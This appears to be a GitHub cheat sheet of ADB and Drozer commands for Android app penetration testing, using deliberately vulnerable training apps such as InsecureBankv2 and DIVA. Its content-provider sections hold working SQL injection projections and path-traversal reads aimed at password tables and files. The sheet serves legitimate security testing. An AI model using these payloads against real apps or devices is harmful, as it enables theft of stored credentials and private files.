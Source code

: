 # adb-cheatsheat
Contains all ADB commands

## Basic commands
Normal user shell access
```
adb shell
```

Root user shell access
```
adb root
adb shell
```

Root  user access from shell
```
adb shell
su
```

Install APKs
```
adb install <apkname>
```

Uninstall APKs
```
adb uninstall <apkname>
```

Uploading files or folders
```
adb push <sourcepath> <destinationpath>
```

Downloading files or folders
```
adb pull <sourcepath> <destinationpath>
```

Listing installed packages; Here pm means Package manager
```
adb shell pm list packages
```

Getting bask apk path or source apks path
```
adb shell pm path <packagename>
```

## Activity, Service & Broadcast handling
### Activity
**-n** component name(Pull path to activity). This below commands send Intent to launch activities
```
adb shell am start-activity -n packagename/activityname
```
Example:
```
adb shell am start-activity -n com.android.insecurebankv2/com.android.insecurebankv2.PostLogin
                        [OR]
adb shell am start-activity -n com.android.insecurebankv2/.PostLogin
```
DROZER</br>
Listing activities</br>
```
dz> run app.activity.info -a jakhar.aseem.diva   #listing activities
```
Starting activity</br>
-a is used to specify action example: -a android.intent.action.VIEW </br>
--extra is to specify strings example: --extra key value </br>
--data-uri is to specify datauri example: --data-uri "https://hello?abc=hii" </br>
--component is to specify activity which takes packagename & activity name example: --component jakhar.aseem.diva jakhar.aseem.diva.MainActivity </br>
```
dz> run app.activity.start --component jakhar.aseem.diva jakhar.aseem.diva.MainActivity  #starting activities
```


#### Intent options with Activities
Combining Action with Activity -a android.intent.action.VIEW 
```
adb shell am start-activity -a android.intent.action.VIEW -n com.android.insecurebankv2/.PostLogin
```

Sending strings via extra strings with Intent
```
--es key "value" or -e key "value"
adb shell am start-activity -n com.android.insecurebankv2/.PostLogin --es reg_url "https://3kal.medium.com"
```

Sending data via data URI with Intent
```
-d <DATA_URI>
adb shell am start-activity -n com.android.insecurebankv2/.PostLogin -d "https://hello?abc=hii"
```

### Broadcast
Sending strings via Intent with broadcast receivers
```
adb shell am broadcast -n <broadcastname> -a <actionname> -e key value
```
Example:
```
adb shell am broadcast -n com.android.insecurebankv2/.BrReciever -a android.intent.action.ACTION_SEND -e uid appsec
```

### Services exploit
Sending strings via Intent with services
```
adb shell am startservice -n <servicename> --es key value
```
Example:
```
adb shell am startservice -n com.androgoat/.DataLeakService --es "leak_data" "tr"
```

#### Exploiting Content providers
Content provider to access to database
```
adb shell content query --uri <contentprovideruri>
```
Example:
```
adb shell content query --uri content://com.example.vulnerableapp.provider/pwds
adb shell content query --uri content://com.example.vulnerableapp.provider/pwds --projection "'"
adb shell content query --uri content://com.example.vulnerableapp.provider --projection "' UNION SELECT * FROM sqlite_master WHERE type='table';-- "
```
DROZER
```
dz> run app.provider.info -a com.abc.testabc   #list content providers with packagname look for exported & permission NULL
dz> run scanner.provider.finduris -a com.abc.testabc  #scan vulnerable content providers
dz> run scanner.provider.sqltables --uri content://com.abc.testabc.contentprovider/pwds/  #list all tables in vulnerable content provider
dz> run scanner.provider.injection --uri content://com.abc.testabc.contentprovider/pwds/  #list vulnerable content providers
dz> run app.provider.query --uri content://com.abc.testabc.contentprovider/pwds/ --projection "'"  #query for sqlinjection
dz> run app.provider.query --uri content://com.abc.testabc.contentprovider/pwds/ --projection " * FROM passwords;"  #querying database
```

Content provider to access files
```
adb shell content read --uri <contentprovideruri>
```
Example:
```
adb shell content read --uri content://com.example.vulnerableapp.provider/../../../../test.txt
```
DROZER
```
dz> run scanner.provider.traversal -a com.abc.testabc   #scan for pathtraversal vulnerable contentprovider
dz> run app.provider.read content://com.example.vulnerableapp.provider/../../../../test.txt   #exploting & reading files
```

